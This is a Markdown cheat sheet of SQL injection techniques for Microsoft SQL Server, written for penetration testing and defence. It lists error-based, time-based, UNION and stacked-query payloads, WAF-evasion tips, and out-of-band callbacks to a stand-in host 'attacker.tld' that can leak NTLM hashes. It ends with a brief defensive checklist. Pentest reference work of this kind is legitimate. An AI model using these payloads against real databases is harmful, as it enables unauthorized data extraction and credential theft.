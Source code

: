 # Microsoft SQL Server — SQLi Notes

> Practical notes for testing and defending **SQL Server (2008–2022)**. Focus on fingerprinting, catalogs, delay/error primitives, OOB callbacks, driver quirks, and safe engineering guidance.

---

## 1) Quick Fingerprinting
- **Engine & version**
  - `SELECT @@version;` — banner (edition + OS).
  - `SELECT SERVERPROPERTY('ProductVersion'), SERVERPROPERTY('ProductLevel'), SERVERPROPERTY('Edition');`
- **Identity & context**
  - `SELECT SYSTEM_USER;`, `SELECT SUSER_SNAME();`, `SELECT ORIGINAL_LOGIN();`
  - `SELECT DB_NAME();`, `SELECT @@SERVERNAME;`
- **Configuration hints**
  - `SELECT CAST(value_in_use AS INT) FROM sys.configurations WHERE name='xp_cmdshell';`
  - `SELECT CAST(value_in_use AS INT) FROM sys.configurations WHERE name='Ole Automation Procedures';`

---

## 2) Comments, Quoting, Concatenation
- **Comments:** `--`, `/* ... */` (no `#` in T‑SQL).
- **Strings:** `'text'` (double quotes for identifiers with QUOTED_IDENTIFIER). Escape `'` by doubling.
- **Unicode:** `N'…'` for NVARCHAR.
- **Concat:** `+`; normalize with `CAST(... AS NVARCHAR(4000))` for UNION/error‑based.

---

## 3) System Catalogs & Info Schema
Preferred: `sys.databases`, `sys.schemas`, `sys.tables`, `sys.columns`, `sys.types`, `sys.objects`.
Portable: `INFORMATION_SCHEMA.TABLES`, `INFORMATION_SCHEMA.COLUMNS`.

**Handy queries**
```sql
SELECT name FROM sys.databases;
SELECT s.name, t.name FROM sys.tables t JOIN sys.schemas s ON t.schema_id=s.schema_id;
SELECT c.name, ty.name FROM sys.columns c JOIN sys.types ty ON c.user_type_id=ty.user_type_id
WHERE c.object_id = OBJECT_ID('dbo.users');
```

---

## 4) Error‑based Primitives
Conversion errors echo data:
```sql
' AND CAST((SELECT DB_NAME()) AS INT) -- -
' AND CONVERT(INT,(SELECT TOP 1 name FROM sys.tables)) -- -
' AND 1/0 -- -   -- confirms error surface
```

---

## 5) Time‑based Primitives
```sql
'; WAITFOR DELAY '0:0:3';--
'; IF (DB_NAME()='appdb') WAITFOR DELAY '0:0:3';--
'; WAITFOR TIME '23:59:59';--  -- less precise
```

---

## 6) UNION‑based Notes
- Match **column count** (`ORDER BY n` or NULL padding).
- Align types (wrap with `NVARCHAR`). Example:
```sql
' UNION ALL SELECT 1, CAST(DB_NAME() AS NVARCHAR(4000)), 3 -- -
```

---

## 7) Stacked Queries (Driver dependent)
```sql
'; SELECT 1;--
'; DECLARE @x sysname=DB_NAME(); EXEC('SELECT '''+@x+'''');--
```

---

## 8) Out‑of‑Band (OOB) Callbacks
UNC/DNS/SMB without xp_cmdshell:
```sql
' EXEC master..xp_dirtree '\\\\attacker.tld\\a' -- -
' EXEC master..xp_fileexist '\\\\attacker.tld\\a' -- -
' SELECT * FROM OPENROWSET(BULK '\\\\attacker.tld\\a', SINGLE_BLOB) AS x -- -
```
**Caution:** Triggers DNS/SMB; may capture NTLM hashes internally. Authorized testing only.

---

## 9) Pagination & Iteration
```sql
SELECT name FROM sys.tables ORDER BY name OFFSET 10 ROWS FETCH NEXT 1 ROWS ONLY; -- 2012+
-- Pre‑2012: use ROW_NUMBER() windowing
```

---

## 10) String Aggregation
- 2017+: `STRING_AGG(name, ',') WITHIN GROUP (ORDER BY name)`.
- Legacy: `FOR XML PATH('')` trick.

---

## 11) Privileges & Security
```sql
SELECT IS_SRVROLEMEMBER('sysadmin') AS is_sysadmin, IS_MEMBER('db_owner') AS is_db_owner;
SELECT name, value_in_use FROM sys.configurations WHERE name IN ('xp_cmdshell','Ole Automation Procedures','Ad Hoc Distributed Queries');
```

---

## 12) Evasion Tips
- Mixed case and comment splitting: `WaItFoR`, `CON/**/VERT`.
- Build strings with `CHAR()` to avoid quotes.

---

## 13) Defensive Checklist
- Parameterized queries; map identifiers to allowlists.
- Disable risky features (`xp_cmdshell`, `Ole Automation Procedures`, `Ad Hoc Distributed Queries`).
- Egress filtering for DB subnets; block SMB/HTTP/DNS where not required.
- Centralized exceptions; no DB banners to clients.

---

## 14) Handy One‑liners
```sql
SELECT @@version, SERVERPROPERTY('ProductVersion') AS ver, SYSTEM_USER AS login, DB_NAME() AS db;
SELECT TOP 1 name FROM sys.tables ORDER BY name;
'; IF (ASCII(SUBSTRING((SELECT SYSTEM_USER),1,1))>77) WAITFOR DELAY '0:0:3';--
```
